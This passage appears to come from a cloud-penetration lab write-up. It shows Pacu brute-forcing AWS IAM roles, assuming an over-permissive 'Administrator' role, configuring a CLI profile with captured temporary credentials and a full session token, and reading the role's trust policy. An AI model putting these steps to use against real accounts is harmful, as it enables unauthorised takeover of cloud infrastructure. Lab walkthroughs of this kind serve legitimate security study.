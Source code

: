```
    "AssumedRoleId": "AROARQVIRZ4UAFUYOQHO7:yjqtzbhSHn2ISI6lDAah",
    "Arn": "arn:aws:sts::104506445608:assumed-role/Administrator/yjqtzbhSHn2ISI6lDAah"
  }
}
Reverting the IAMEnum trust policy.
```

Pacu found a 8 users and 6 roles after brute forcing. Even better, it looked to see which role it could try to assume and automatically assumed the Administrator role! It has never been so easy.

### Initial Access

I used AWS configure to access the new role.

```
┌──(kali㉿kali)-[~/Desktop/pacu]
└─$ aws configure --profile "adminPacuLab"
AWS Access Key ID [****************MKJY]: ASIAR**********XYQMKJY
AWS Secret Access Key [****************aJwl]: ThN0lr0Bm****************Es+DXNaJwl
Default region name [None]:
Default output format [None]:

┌──(kali㉿kali)-[~/Desktop/pacu]
└─$ aws configure set aws_session_token "FwoGZXIvYXdzEI3//////////wEaDNZ3Hvjf0W6+Xbc95yK4AbPMZeRMS4YQkAL3/9tJcTqkXRIPU/8hhZSm3r3JiJ5kLuX0FP3Uhdi1c/tzJq+mMH/PoHoOXEpSSE0FZy1B6rCkW1bHVety/fTrkimPhQRTIwKBVvC1bA669hHgiLy8oPXSBmypIKJtctFm3X8jY5AdMMseGduY5UD8hkUUxYR7ZEyUaM3jl3fwSae1NHtA6w0rjLLDb2nA7YrnJjWvb2uyDAiTPRStBfsSW0AdQMIRzx9iiI161DUousCJwgYyLVyIn3xLmULlhraorXScnnt+xD/VkIGPMu4o/spK95lIlIR4NgIfF/pA8qh8+w==" --profile "adminPacuLab"

┌──(kali㉿kali)-[~/Desktop/pacu]
└─$ aws sts get-caller-identity --profile adminPacuLab
{
    "UserId": "AROARQVIRZ4UAFUYOQHO7:yjqtzbhSHn2ISI6lDAah",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/Administrator/yjqtzbhSHn2ISI6lDAah"
}
```

So now, let’s see what this role does.

```
$ aws iam get-role --role-name Administrator --profile adminPacuLab
{
    "Role": {
        "Path": "/",
        "RoleName": "Administrator",
        "RoleId": "AROARQVIRZ4UAFUYOQHO7",
        "Arn": "arn:aws:iam::104506445608:role/Administrator",
        "CreateDate": "2023-06-27T12:40:47+00:00",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "*"
                    },
                    "Action": "sts:AssumeRole",
                    "Condition": {
                        "StringEquals": {
                            "aws:username": "policyuser"
                        }
                    }
                }
            ]
        },
```